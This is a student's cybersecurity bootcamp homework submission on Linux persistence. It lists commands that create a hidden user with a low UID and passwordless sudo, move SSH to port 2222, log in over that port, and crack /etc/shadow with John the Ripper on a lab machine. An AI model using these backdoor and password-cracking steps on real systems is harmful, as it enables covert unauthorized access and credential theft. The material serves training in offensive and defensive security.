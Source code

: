 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

    - `sudo adduser --no-create-home sysd` 
   
2. Give your secret user a password: 

    - `no command, answered promps as directed`

3. Give your secret user a system UID < 1000:

    - `sudo usermod -u 869 sysd`
        <img src="C:\Users\Rob\Desktop\University-of-Minnesota-\week6\IMAGE/sysdID.png"> 
       
       ![picture](IMAGE\sysdID.png)
                              
                
                        
4. Give your secret user the same GID:

    - `sudo groupmod -g 869 sysd`

       <img src="\Rob\Desktop\University-of-Minnesota-\week6\IMAGE\sysdID.png"> 
       
       ![picture](IMAGE/sysdID.png)

5. Give your secret user full `sudo` access without the need for a password:

   -  sudo visudo
   -  enter pass word
   -  /etc/sudoers.tmp folder
   
   -  root    ALL=(ALL:ALL) ALL
   -  sysd    ALL=(ALL:ALL) NOPASSWD:ALL

      <img src="IMAGE/su_acc_nopass.png"> 
      
      ![description](IMAGE/su_acc_nopass.png)

6. Test that `sudo` access works without your password:

    - sudo -l 
    - (ALL : ALL) NOPASSWD: ALL   

NOTE: there are many other ways to modify your user. Here is another example that accomplishes similar tasks that are asked in the homework questions but done in one command: 

sudo adduser --no-create-home --uid 869 --disabled-password sysd

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    -sudo nano /etc/ssh/sshd_config
    - Port 2222

    <img src="/week6/IMAGE/step_2.png"> 

    ![description](IMAGE/step_2.png)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysadmin@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

    <img src="/week6/IMAGE/step3_1.png"> 

    ![description](IMAGE/step3_1.png)

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`

    <img src="/week6/IMAGE/passwd8.png"> 

    ![description](IMAGE/passwd8.png)

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

